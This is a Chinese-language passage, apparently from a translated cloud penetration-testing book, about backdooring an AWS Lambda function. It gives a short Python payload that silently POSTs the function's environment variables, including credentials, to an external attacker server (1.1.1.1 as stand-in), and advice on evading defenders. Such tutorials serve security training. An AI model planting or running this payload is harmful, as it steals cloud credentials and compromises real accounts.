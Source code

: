 我们添加代码后 VulnerableFunction 的开始

这个有效负载的唯一问题是，它假设我们可以查看这个 Lambda 函数的执行日志，我们可能有权也可能没有权访问这些日志。我们需要访问 CloudWatch 日志或使用测试事件运行函数，以便在 web 控制台中查看输出。现在我们要说的是，我们没有 CloudWatch 访问权限，所以我们必须进行测试事件。下一个问题是，我们可能丢失了这个 Lambda 函数的整个上下文。我们不一定知道调用函数什么时候有意义，函数出错什么时候有意义，它被调用的频率，如果在正常触发器之外调用它会有什么影响，以及其他许多事情。

为了解决这个问题，我们可以忽略它，对函数运行测试事件，而不必担心后果（这不是一个好主意，除非您非常确定它不会破坏环境中的任何东西，也不会引起防御者不必要的注意），或者我们可以修改负载以过滤凭证，有点像本章的第一节。这可能是最安全的方法，因为我们可以将恶意负载添加到函数中，在外部服务器上设置侦听器，然后等待 Lambda 函数正常调用。为此，我们可以导入子流程并像以前一样使用`curl`，但更简单的方法是使用 Python`requests`库。请求不会自动包含在 Lambda 函数可用的默认库中，但`botocore`是，并且`botocore`依赖于`requests`库，因此我们可以使用一个很酷的技巧来导入和使用`requests`。我们使用以下`import`语句代替`import requests`：

```
from botocore.vendored import requests
```

现在，我们可以正常访问`requests`库了。因此，按照我们在本章前面所做的类似方法，我们可以向外部服务器发送一个包含所有环境变量的 HTTP`POST`请求。我们还可以在 Lambda 函数中运行 AWS API 调用并过滤输出，这在技术上更安全，因为 API 调用将来自预期的相同 IP 地址，而不是我们的外部攻击 IP；然而，拉取环境变量更通用，并且随着时间的推移对函数的修改更少，因此我们将继续这样做。下面的有效负载将实现这一点（我们再次假装`1.1.1.1`是外部服务器的 IP）：

```
try:
    import os
    from botocore.vendored import requests
    requests.post('http://1.1.1.1', json=os.environ.copy(), timeout=0.01)
except:
    pass
```

使用`requests`库发送 HTTP`POST`请求，该请求包含操作系统库获取的环境变量，超时设置为`0.01`发送请求；代码立即继续，而不是等待任何响应并导致 Lambda 函数本身超时。将此有效负载添加到目标 Lambda 函数后，我们只需等待函数通过正常方式被调用，最终，我们将获得发送到服务器的凭据：

![](img/286eb121-c4d3-46c6-ba28-336429a9dc39.png)
